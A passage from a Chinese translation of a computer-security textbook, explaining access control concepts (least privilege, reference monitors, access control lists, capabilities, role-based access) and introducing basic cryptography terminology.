- **强制最小权限**。最小权限原则指出，主体应仅拥有执行任务所需的最少数量客体访问权。即使额外信息对主体无用或无害，主体也不应拥有额外访问权。例如，程序不应访问页号引用所转换的绝对内存地址，即使程序无法有效利用该地址。不允许访问不必要的客体可防范保护机制部分失效时的安全弱点。

***

**最小权限：完成任务所需的最少资源访问权**

***

- **验证可接受用法**。访问能力是非黑即白的决策。但同样重要的是检查对客体执行的活动是否恰当。例如，栈等数据结构有特定可接受操作，包括 `push`、`pop`、`clear` 等。我们不仅要控制谁或什么有权访问栈，还要确保所有执行的访问均为合法的栈操作。

##### 追踪

实施适当策略并非访问管理的终点。管理员有时需重审访问策略，确定其是否按预期工作。某人任职久是否积累了大量不再需要的权限？某对象的访问用户过多以致无需控制？或应将其拆分为多个对象，使个人仅获取所需部分的访问权？管理员需偶尔考虑此类问题，以确定策略和实施是否有效。我们将在 **第 10 章** 探讨定义安全策略的管理方面，但在此预览一些问题，因为它们对访问控制有技术影响。

##### 粒度

###### 访问控制粒度

**粒度**是指访问控制的精细程度或特定性。它是一个频谱：一端是你可以控制对每个单独比特或字节、文档中的每个单词、电子表格中的每个数字、收藏中的每张照片的访问。这种级别的特定性通常过于繁琐且难以实现。粒度越细，必须做出的访问控制决策就越多，因此会有性能损耗。另一极端则是简单地说 `Adam` 对计算机 `C1` 拥有完全访问权。如果计算机仅供 `Adam` 使用，这种方法可能行得通；但如果计算机 `C1` 是共享的，系统就没有依据来控制或协调这种共享。因此，必须采取一个合理的中间点。

通常，**文件**、**程序**或**数据空间**是受访问控制的最小单元。但请注意，应用程序可以实现自己的访问控制。例如，正如我们在 **第 7 章** 所述，数据库管理系统可以访问完整的数据库，但随后会将数据库划分为更小的单元并分配访问权限：该用户可以查看姓名但不能查看薪资，那个用户只能查看西部办公室员工的数据。

硬件设备、内存块、存储程序代码的磁盘空间、特定应用程序，所有这些都是可能受访问控制的对象。

##### 访问日志

做出访问决策后，系统允许该访问，并让用户和对象完成事务。系统还会记录已允许的访问，创建所谓的**审计日志**。该日志由系统创建和维护，并保留以供后续分析。记录访问的原因包括：

- 访问记录有助于规划新设备或升级设备，通过显示哪些项目使用频繁。
- 如果系统故障，这些记录可以显示正在进行的访问，并可能有助于确定故障原因。
- 如果用户滥用对象，访问日志会准确显示用户访问了哪些对象。
- 发生外部入侵时，审计日志可能有助于确定攻击者如何获得访问权限以及访问了哪些数据项（因此被泄露或妥协）。这些用于事后取证分析的数据在处理重大事件时极有帮助。

作为访问控制活动的一部分，系统构建并保护此审计日志。显然，粒度很重要：记录每个被访问内存字节的日志太冗长，没有多少实际价值；但只记录“8:01 用户开机；17:21 用户关机”的日志可能细节太少，无法提供帮助。

在下一节中，我们将考虑适用于未指定类型的通用对象的保护机制，例如上述列出的对象类型。为便于理解，我们有时会使用特定对象（如文件）作为示例。但请注意，通用机制可用于保护上述列出的任何类型的对象。

###### 最小权限

**最小权限**是指限制用户和进程，使其造成的任何危害都不是灾难性的。一个禁止任何人对任何事物进行所有访问的系统，当然同时实现了机密性和完整性，但它完全牺牲了可用性和实用性。因此，我们寻求一个平衡点，在需要一定访问权限与有害的、不当访问的风险之间取得平衡。当然，我们不期望用户或进程造成危害。但考虑到并非所有用户都是合乎道德甚至称职的，也并非所有进程都按预期运行，我们希望限制因行为不当的用户或故障进程而导致的风险暴露。最小权限是限制这种风险暴露的一种方式。

最小权限是一个管理概念，而非技术控制。分析用户并确定其所需特权的过程，是授权限制的必要第一步。确定限制后，我们转向访问控制技术来强制执行这些限制。在 **第 3 章** 中，我们再次提出最小权限概念，当时我们描述确保安全的程序设计和实现。`Jerome Saltzer` 和 `Michael Schroeder` 最先提出的安全设计原则（`SAL75`）解释了限制用户及其程序运行特权的优势。

#### 实现访问控制

访问控制通常由操作系统执行。只有操作系统可以访问原始对象（如文件）以对其进行控制，且操作系统创建和终止代表用户（主体）的程序。然而，当前的硬件设计并不总是支持操作系统实现良好区分或细粒度的访问控制。例如，操作系统通常无法查看文件或数据对象内部，因此无法在数据库内执行行级或元素级访问控制。此外，操作系统无法轻松区分网络流量类型。在这些情况下，操作系统将某些访问控制方面的实现推给数据库管理器或网络设备。由于可分配的特权种类有限，操作系统无法既轻松控制数据库管理器，又允许数据库管理器控制用户。因此，当前的硬件设计限制了一些操作系统设计。

###### 参考监视器

`James Anderson` 及其研究委员会（`AND72`）为一个存在了千年的概念赋予了名称和结构，即其数字化版本。为了保护中世纪堡垒，统治者设置一道重兵把守的大门作为唯一入口。将军用堡垒和哨兵包围军队驻地。银行家将现金和其他贵重物品存放在保险箱中，其坚固的门只有极少数受信任的人知道密码。童话反派将少女锁在高塔中。所有这些例子都展示了因故障安全设计而产生的强访问控制。

在 `Anderson` 为计算机制定的方案中，访问控制依赖于硬件和软件的组合，该组合具有以下特性：

- **始终被调用**；验证每一次访问尝试
- **免受篡改**
- **确保正确**

***

**参考监视器：始终被调用、防篡改且可验证的访问控制**

***

`Anderson` 称这种结构为**参考监视器**。这三个属性为何至关重要显而易见。


参考监视器是一种概念，不是你可以买来插入端口的工具。它可以嵌入应用程序（控制应用程序的对象）、作为操作系统的一部分（用于系统管理的对象）或作为设备的一部分。尽管如此，你将在本书中反复看到这三个属性。要拥有有效的参考监视器，我们需要考虑将策略（验证的基础）转化为行动的有效且高效的方法。我们如何用二进制数据表示策略，会影响中介的效率甚至有效性。

在接下来的章节中，我们将介绍参考监视器维护和实现访问权限的几种模型。

### 访问控制目录

保护对象的一种简单方法是使用类似文件目录的机制。假设我们试图保护文件（对象集）免受计算系统用户（主体集）的侵害。每个文件都有一个唯一所有者，拥有“控制”访问权限（包括声明谁拥有何种访问权限的权利）以及随时撤销任何人访问权限的权利。每个用户都有一个文件目录，列出该用户有权访问的所有文件。

显然，不能允许任何用户在文件目录中写入，因为这将是伪造文件访问的一种方式。因此，操作系统必须在文件所有者的命令下维护所有文件目录。文件的明显权限是许多共享系统中常见的读、写和执行。此外，所有者拥有另一项权利 `owner`，允许该用户授予和撤销访问权限。图 2-9 显示了一个文件目录示例。



**图 2-9** 目录访问权限

这种方法易于实现，因为它为每个用户使用一个列表，列出该用户被允许访问的所有对象。然而，可能会出现几个困难。首先，如果许多共享对象（如子程序库或公共用户表）可供所有用户访问，列表会变得太大。每个用户的目录必须为每个此类共享对象包含一个条目，即使该用户无意访问该对象。删除操作必须反映在所有目录中。

第二个困难是访问撤销。如果所有者 A 将读取文件 F 的权限传递给用户 B，则会在 B 的目录中为 F 创建一个条目。这种授予访问权限意味着 A 和 B 之间存在一定程度的信任。如果 A 后来质疑这种信任，A 可能想要撤销 B 的访问权限。操作系统可以轻松响应删除 B 访问 F 权限的单个请求，因为该操作涉及从特定目录中删除一个条目。但如果 A 想要移除所有人访问 F 的权限，操作系统必须搜索每个单独的目录以查找 F 条目，这在大型系统上可能是一项耗时的活动。例如，大型系统或较小系统的网络很容易拥有 5,000 到 10,000 个活动账户。此外，B 可能已将 F 的访问权限传递给另一个用户 C，这种情况称为**访问权限传播**，因此 A 可能不知道 C 的访问权限存在且应被撤销。这个问题在网络中尤为严重。

第三个困难涉及别名。所有者 A 和 B 可能有两个名为 F 的不同文件，并且他们可能都想允许 S 访问。显然，S 的目录不能在同一名称下包含两个针对不同文件的条目。因此，S 必须能够唯一标识 A（或 B）的 F。一种方法是将原始所有者的标识作为文件名的一部分包含在内，采用诸如 `A:F`（或 `B:F`）之类的表示法。

然而，假设 S 想使用除 F 以外的名称，以使文件内容更加明显。系统可以允许 S 用 S 目录中唯一的任何名称来命名 F。然后，来自 A 的 F 可以被称为 Q。如图 2-10 所示，S 可能忘记了 Q 就是来自 A 的 F，因此 S 再次向 A 请求访问 F。但到现在 A 可能更信任 S，所以 A 授予 F 更大的权限。这导致一个主体 S 可能拥有两组不同的针对 F 的访问权限，一组名为 Q，另一组名为 F。通过这种方式，允许别名可能导致不一定一致的多重权限。因此，目录方法对于大多数对象保护情况来说可能过于简单。



**图 2-10** 模棱两可的访问权限

### 访问控制矩阵

我们可以将目录视为单个主体可访问对象的列表，将访问列表视为标识可访问单个对象的主体的表。这两种表示中的数据是等价的，区别在于在特定情况下的易用性。

作为替代方案，我们可以使用**访问控制矩阵**，如图 2-11 所示，这是一个表，其中每一行代表一个主体，每一列代表一个对象，每个条目是该主体对该对象的访问权限集合。



**图 2-11** 访问控制矩阵

表 2-8 显示了访问控制矩阵的一个更详细的示例表示。表中显示的访问权限为：O，拥有；R，读；W，写；X，执行。通常，访问控制矩阵是稀疏的（意味着大多数单元格为空）：大多数主体对大多数对象没有访问权限。访问矩阵可以表示为三元组列表，每个三元组的形式为 `主体, 对象, 权限`，如表 2-9 所示。



**表 2-8** 访问控制矩阵



**表 2-9** 访问控制三元组列表

这种表示可能比访问控制矩阵更高效，因为矩阵中任何空单元格（如 `USER T, Bibliog, –`）都没有对应的三元组。即使三元组可以根据需要按主体或对象排序，搜索大量此类三元组的效率也足够低，以至于这种实现很少使用。

### 访问控制列表

另一种表示是**访问控制列表**；如图 2-12 所示，这种表示对应于访问控制矩阵的列。每个对象有一个这样的列表，列表显示所有应该有权访问该对象的主体及其访问权限。这种方法与目录列表不同，因为每个对象有一个访问控制列表；目录是为每个主体创建的。虽然这种差异看似很小，但这种方法有一些显著优势。



**图 2-12** 访问控制列表

访问控制列表表示可以包含默认权限。考虑主体 A 和 S，它们都有权访问对象 F。操作系统将仅为 F 维护一个访问列表，显示 A 和 S 的访问权限，如图 2-13 所示。访问控制列表可以包含针对任意用户的通用默认条目。这样，特定用户可以拥有显式权限，而所有其他用户可以拥有一组默认权限。有了这种组织，系统的所有可能用户可以共享公共文件或程序，而无需在每个用户的个人目录中为该对象创建条目。



**图 2-13** 具有两个主体的访问控制列表

Multics 操作系统使用了一种形式的访问控制列表，其中每个用户属于三个保护类别：用户、组和区间。用户标识标识特定主体，组标识将具有共同兴趣的主体聚集在一起，例如他们是项目上的同事。区间限制了不受信任的对象；在一个区间中执行的程序不能在没有特定许可的情况下访问另一个区间中的对象。区间也是收集相关对象的一种方式，例如单个项目的所有文件。

为了了解这种保护类型如何工作，假设每个发起系统访问的用户标识一个要工作的组和区间。如果 Adams 以用户 Adams、组 Decl 和区间 Art2 登录，则只有访问控制列表中包含 `Adams-Decl-Art2` 的对象在该会话中可访问。

单凭这种机制将过于严格而无法使用。Adams 无法创建可在任何会话中使用的通用文件。更糟糕的是，共享对象不仅必须将 Adams 列为合法主体，还必须在每个组的所有可接受区间中，将 Adams 列在所有可接受的组下。

解决方案是使用通配符，即指代“任意用户”（或“任意组”、“任意区室”）的占位符。访问控制列表可能指定由 `Adams-Decl-Art1` 访问，如果 Adams 在组 `Decl` 中处理区室 `Art1`，则授予其特定权限。列表也可能指定 `Adams-*-Art1`，意味着 Adams 可以从区室 `Art1` 中的任意组访问该对象。同样，`*-Decl-*` 的表示法意味着“区室 `Decl` 中任意组的任意用户”。通配符 `*` 在不同位置的放置具有显而易见的解释。

Unix 采用类似的用户-组-世界权限方法。每个用户都属于一个相关用户组——同一班级的学生、共享项目的工作者或同一部门的成员。每个对象的访问权限是一个三元组 `(u,g,w)`，其中 `u` 代表用户的访问权限，`g` 代表组内其他成员的权限，`w` 代表世界上所有其他用户的权限。

访问控制列表可以按排序顺序维护，其中 `*` 排在所有特定名称之后。例如，`Adams-Decl-*` 将出现在 Adams 的所有特定区室指定之后。对访问权限的搜索将持续到首次匹配为止。在协议中，所有显式指定会在任意位置的通配符之前进行检查，因此特定访问权优先于通配符权限。访问列表上的最后一个条目可以是 `*-*-*`，指定允许给未显式列在访问列表中的任意用户的权限。有了这个通配符机制，共享公共对象可以拥有非常短的访问列表，仅显式列出那些应具有不同于默认值的访问权限的少数主体。

### 权限列表

**权限列表**，有时称为**目录**，是访问矩阵的一行，显示给定主体的所有特权或访问权限（如图 2-14 所示）。权限列表的一个优势是易于撤销：如果用户从系统中移除，权限列表会显示该用户有权访问的所有对象，以便从这些对象中移除相应的权限。



**图 2-14** 权限控制列表

### 能力

到目前为止，我们已经研究了操作系统必须跟踪所有保护对象和权限的保护方案。但其他方法将部分负担放在用户身上。例如，可能要求用户持有允许访问的票证或通行证，这很像一张无法复制的票证或身份证。

更正式地说，**能力**是一种不可伪造的令牌，赋予持有者对对象的特定权利。Multics [SAL74]、CAL [LAM76] 和 Hydra [WUL74] 系统使用能力进行访问控制。如图 2-15 所示，能力只是主体、对象和权利的一个访问控制三元组。理论上，主体可以创建新对象并指定在这些对象上允许的操作。例如，用户可以创建文件、数据段或子进程等对象，也可以指定可接受的操作类型，如读、写和执行。但用户也可以创建全新的对象，如新的数据结构，并定义系统先前未知的访问类型。



**图 2-15** 能力

---

**能力：访问对象或服务的单次或多次使用票证**

---

将能力视为一张票证，授予主体对对象进行特定类型访问的权限。为了使能力提供可靠的保护，票证必须是不可伪造的。使其不可伪造的一种方法是不直接将票证交给用户。相反，操作系统代表用户持有所有票证。操作系统向用户返回一个指向操作系统数据结构的指针，该结构也链接到用户。能力只能通过用户向操作系统的特定请求来创建。每个能力还标识允许的访问类型。

或者，能力可以在仅可用于访问控制机制的密钥下加密。如果加密的能力包含其合法所有者的身份，用户 A 就无法复制该能力并将其交给用户 B。

对象的一个可能访问权是传递或**传播**。拥有此权利的主体可以将能力的副本传递给其他主体。反过来，这些能力中的每一个也都有一个允许的访问类型列表，其中之一也可能是传递。在这种情况下，进程 A 可以将能力的副本传递给 B，B 然后可以将副本传递给 C。B 可以通过从传递给 C 的能力的权利中省略传递权，来防止该能力的进一步分发（从而防止访问权的进一步传播）。B 仍然可能将某些访问权传递给 C，但不包括将访问权传播给其他主体的权利。

随着进程执行，它在一个域或局部命名空间中运行。**域**是进程有权访问的对象集合。在给定时间，用户的域可能包括一些程序、文件、数据段和 I/O 设备，如打印机和终端。图 2-16 显示了一个域的示例。



**图 2-16** 域示例

随着执行继续，进程可能会调用子过程，将其有权访问的某些对象作为参数传递给子过程。子过程的域不一定与其调用过程的域相同；事实上，调用过程可能只将其部分对象传递给子过程，而子过程可能拥有调用过程无法访问的其他对象的访问权，如图 2-17 所示。调用者也可能只传递其对所传递对象的部分访问权。例如，一个过程可能将读取但不修改特定数据值的权利传递给子过程。



**图 2-17** 向域传递对象

因为每个能力标识域中的单个对象，能力的集合定义了域。当进程调用子过程并将特定对象传递给子过程时，操作系统会形成当前过程所有能力的栈。然后操作系统为子过程创建新的能力。

从操作角度来看，能力是在执行期间跟踪主体对对象访问权的一种直接方法。能力由更全面的表支持，如访问控制矩阵或访问控制列表。每当进程寻求使用新对象时，操作系统会检查对象和主体的主列表，以确定该对象是否可访问。如果可访问，操作系统将为该对象创建一个能力。

能力必须存储在普通用户无法访问的内存中。实现这一点的一种方法是将能力存储在用户段表未指向的段中，或将其包含在受保护内存中，如由一对基址/界限寄存器保护的内存。另一种方法是使用标记体系结构机器来标识需要保护的作为结构的能力。

在执行期间，仅当前进程已访问的对象的能力会保持随时可用。此限制提高了检查对象访问权的速度。这种方法本质上是 Multics 中使用的方法，如 [FAB74] 所述。

#### 能力与访问控制模型

能力可以被撤销。当颁发主体撤销一项能力时，不应再允许基于该已撤销能力的进一步访问。能力表可以包含指向其下生成的活动能力的指针，以便操作系统能够追踪如果某项能力被撤销，应删除哪些访问权限。一个类似的问题是删除不再活跃的用户的能力。

这三种基本结构——目录、访问控制矩阵及其子集、以及能力——构成了当今实施的访问控制系统的基础。除了访问控制矩阵或其子结构的机械实现之外，还有两种访问模型与访问控制的目标联系更为具体：将访问与主体的角色或访问的上下文相关联。我们接下来介绍这些模型。

### 面向过程的访问控制

访问控制的一个目标不仅是限制哪些主体可以访问对象，还要限制它们能对该对象`做`什么。大多数应用程序和操作系统都能相对容易地控制读与写访问，但要实现更复杂的控制并不容易。

通过**面向过程的**保护，我们指的是存在一个控制对象访问的过程（例如，通过执行自身的用户认证来加强基本操作系统提供的基础保护）。本质上，该过程在对象周围形成一个胶囊，仅允许特定的指定访问。

> **过程可在实施访问控制时执行特定于特定对象的操作。**

过程可确保对对象的访问通过受信任的接口进行。例如，既不允许用户也不允许通用操作系统例程直接访问有效用户表。相反，唯一允许的访问可能是通过三个过程：一个用于添加用户，一个用于删除用户，一个用于检查特定名称是否对应有效用户。这些过程，特别是添加和删除，可以使用它们自己的检查来确保对它们的调用是合法的。

面向过程的保护实现了信息隐藏原则，因为实现对象的方法仅为该对象的控制过程所知。当然，这种程度的保护会带来效率低下的代价。采用面向过程的保护，即使对象被频繁使用，也无法进行简单、快速的访问检查。

#### 基于角色的访问控制

我们尚未区分用户类型，但我们希望某些用户（如管理员）拥有重要特权，而其他用户（如普通用户或访客）拥有较低特权。在公司和教育机构中，当普通用户变为管理员，或面包师转移到烛台制造者组时，情况可能变得复杂。**基于角色的访问控制**允许我们将特权与组关联，例如所有管理员可以执行某操作，或烛台制造者被禁止执行某操作。如果我们能按工作需求而非按个人控制访问，安全管理会更容易。访问控制能跟上职责发生变化的人员，系统管理员无需为某人选择合适的访问控制设置。关于基于角色的访问控制细微差别的更多详情，请参阅 [[FER03]](#bib01.html#bib_194)。

> **按角色进行访问控制可识别一组主体所有成员的共同需求。**

总之，我们对访问控制机制的研究刻意地从简单进阶到复杂。历史上，随着机制提供更大的灵活性，它们也以增加开销为代价。例如，实现每次访问都必须检查的能力，比实现仅在主体首次访问对象时检查的简单目录结构要困难得多。这种复杂性对用户和实现者都显而易见。用户意识到额外的保护功能，但缺乏经验的用户可能会因不得不在几乎不了解其用处的情况下选择保护选项而感到沮丧或畏惧。实现复杂性表现为对用户响应缓慢。在简洁性与功能性之间取得平衡是安全领域持续的斗争。

## 2.3 密码学

接下来我们介绍第三种基本安全工具：密码学。在本章中，我们仅介绍该主题的基础知识，仅足以让您了解它如何被使用以及能实现什么。我们将内部原理留待本书末尾的第 12 章介绍。我们这样做是因为大多数计算机安全从业者很难从头解释或实现良好的密码学，这也印证了我们的观点：您不需要理解密码学的内部原理就能成功使用它。阅读本章时，您可能会问为什么要以特定方式做事，或者某事物究竟是如何工作的。我们邀请您跳转到第 12 章了解详情。但本章重点关注工具及其用途，将内部工作原理留待未来。

加密或密码学——其名称意为秘密书写——可能是计算机安全保护武器库中最强有力的防御手段。伪装良好的数据不易被读取、修改或伪造。简单来说，加密就像一台机器：您从一端输入数据，齿轮转动、指示灯闪烁，您从另一端获得修改后的数据。事实上，二战期间使用的某些加密设备确实通过实际的齿轮和转子运作，这些设备在阻止（尽管并不总能阻止）对方阅读受保护消息方面是有效的。现在机械装置已被计算机算法取代，但原理相同：一种变换使数据难以被外人解读。

> **密码学隐藏数据以防止未授权访问。**

我们首先考察加密的作用及其工作原理。我们介绍加密算法的基本原理，引入两种具有不同用途的加密类型。由于弱加密或有缺陷的加密只能造成保护的假象，我们还将探讨加密如何失效。我们简要描述用于突破保护层以使安全失效的技术。基于这些基本加密类型，我们展示如何组合它们以安全地解决计算和通信中的几个通用问题。

### 加密解决的问题

有时我们在发送秘密消息的背景下描述加密。这种框架仅为便于描述：相同的概念适用于保护数据文件或内存中的敏感信息。因此，当我们谈论发送消息时，您也应考虑保护任何数字对象，使其仅供授权人员访问。

考虑从**发送者** *S* 向**接收者** *R* 发送消息所涉及的步骤。如果 *S* 将消息委托给 *T*，由 *T* 传递给 *R*，则 *T* 成为**传输媒介**。如果外部人员 *O* 想要访问消息（以读取、更改甚至销毁），我们称 *O* 为**截获者**或**入侵者**。在 *S* 通过 *T* 发送消息后的任何时候，消息都容易被利用，*O* 可能会尝试以下任何方式访问它：

- *阻塞*它，通过阻止其到达 R，从而影响消息的可用性
- *截获*它，通过阅读或监听消息，从而影响消息的机密性
- *修改*它，通过截获消息并以某种方式更改它，影响消息的完整性
- *伪造*一条外观真实的消息，安排其被投递，就像它来自 *S* 一样，从而同样影响消息的完整性

正如你所见，消息的脆弱性反映了我们在第 1 章中确定的四种可能的安全故障。幸运的是，加密是一种可以解决所有这些问题的技术。加密是在不安全环境中维护安全数据的一种手段。在本书中，我们将加密作为一种安全技术进行研究，并了解它如何用于保护程序、数据库、网络和电子通信。

### 术语


**加密**是对消息进行编码以使其含义不明显的过程；**解密**是逆过程，将加密消息转换回其正常的原始形式。或者，术语**编码**和**解码**或**加密**和**解密**可用于代替加密和解密。也就是说，我们说对原始消息进行编码、加密或加密以隐藏其含义。然后，我们对其进行解码、解密或解密以显示原始消息。用于加密和解密的系统称为**密码系统**。

这三组词的含义略有不同，虽然在本讨论的语境中这些差异并不重要。严格来说，**编码**是将整个单词或短语翻译成其他单词或短语的过程，而**加密**是逐个翻译字母或符号；**加密**是涵盖编码和加密的统称。

消息的原始形式称为**明文**，加密形式称为**密文**。这种关系如图 2-18 所示。可以将加密视为一种不透明的涂料，它遮蔽或抹除明文，使其无法被准确地看到或解释。然后，解密就是剥离涂料以再次显示原始明文的过程。



**图 2-18** 明文和密文

***

**密文：加密材料；明文：可理解形式的材料**

***

我们使用形式化符号来描述明文和密文之间的转换。例如，我们写 `C = E(P)` 和 `P = D(C)`，其中 `C` 代表密文，`E` 是加密规则，`P` 是明文，`D` 是解密规则。我们寻求的是一个满足 `P = D(E(P))` 的密码系统。换句话说，我们希望能够将明文消息转换为密文以保护它免受入侵者侵害，但我们也希望能够恢复原始消息，以便接收者能正确阅读。

### 加密密钥

密码系统涉及一组如何加密明文和解密密文的规则。加密和解密规则称为**算法**，通常使用一个称为**密钥**的设备，用 `K` 表示，因此生成的密文取决于原始明文消息、算法和密钥值。我们将这种依赖关系写为 `C = E(K, P)`。本质上，`E` 是一组*加密算法*，密钥 `K` 从该组中选择一个特定算法。

